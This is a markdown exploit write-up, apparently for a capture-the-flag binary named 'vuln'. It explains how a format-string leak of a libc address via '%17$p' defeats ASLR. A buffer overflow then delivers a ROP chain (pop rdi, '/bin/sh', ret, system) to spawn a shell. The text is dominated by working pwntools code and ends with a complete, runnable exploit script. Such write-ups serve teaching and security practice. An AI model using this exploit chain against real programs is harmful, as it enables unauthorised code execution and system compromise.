

# Format String Vulnerability to ROP Chain Exploit

## Vulnerability Analysis

### Binary Overview
The target binary `vuln` contains a format string vulnerability that allows arbitrary memory reads, followed by a potential buffer overflow.

### Key Vulnerabilities
1. **Format String Vulnerability**: The first user input is passed directly to `printf` without proper formatting, allowing format string attacks.
2. **Buffer Overflow**: The second input uses an unsafe function that doesn't check bounds.

## Exploitation Strategy

### Information Leak via Format String

The format string vulnerability is exploited to leak a libc address, bypassing ASLR.

```python
p.sendline(b'%17$p')
response = p.recvline()
leak = int(response.split(b' ')[-1].strip(), 16)
```

**Why `%17$p` works**:
- The 17th positional parameter on the stack contains `__libc_start_call_main+120`
- This provides a reliable libc address to calculate the libc base

### Step 2: Calculate Libc Base and Essential Addresses

```python
libc_base = leak - 0x29ca8
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + 0x2a145
```

**Calculations**:
- `0x29ca8` = offset of `__libc_start_call_main+120` from libc base
- `pop_rdi` gadget found at offset `0x2a145` in libc
- `system` and `/bin/sh` offsets obtained from libc symbols

### Step 3: Buffer Overflow and ROP Chain

The second input triggers a buffer overflow to hijack control flow:

```python
offset = 40  # Distance to return address
payload = b'A' * offset
payload += p64(pop_rdi)      # Load /bin/sh into RDI
payload += p64(binsh_addr)   # Argument for system()
payload += p64(ret)          # Stack alignment
payload += p64(system_addr)  # Call system("/bin/sh")
```

## Technical Details

### x64 Calling Convention
- **First argument**: RDI register
- **Function call**: CALL instruction
- **Stack alignment**: 16-byte boundary (often requires RET gadget)

### ROP Chain Construction
1. **Overwrite return address** with `pop rdi` gadget
2. **Set RDI** to point to "/bin/sh" string
3. **Call system()** to execute shell
4. **Include RET gadget** for proper stack alignment

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

# Initialize process and ELF objects
p = process('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF('./vuln')

# Step 1: Leak libc address via format string
p.recvuntil(b"What do you want? ")
p.sendline(b'%17$p')
response = p.recvline()
leak = int(response.split(b' ')[-1].strip(), 16)
log.info(f"Leaked address: {hex(leak)}")

# Step 2: Calculate essential addresses
libc_base = leak - 0x29ca8
log.info(f"Libc base address: {hex(libc_base)}")

system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
pop_rdi = libc_base + 0x2a145
ret = 0x0000000000401016  # Stack alignment gadget

log.info(f"system: {hex(system_addr)}")
log.info(f"/bin/sh: {hex(binsh_addr)}")
log.info(f"pop rdi: {hex(pop_rdi)}")

# Step 3: Trigger buffer overflow with ROP chain
p.recvuntil(b"Wanna Cry about that? ")

offset = 40  # Buffer offset to return address
payload = b'A' * offset
payload += p64(pop_rdi)      # Load /bin/sh address into RDI
payload += p64(binsh_addr)   # Argument for system()
payload += p64(ret)          # Stack alignment
payload += p64(system_addr)  # Call system()

p.sendline(payload)
p.interactive()
```

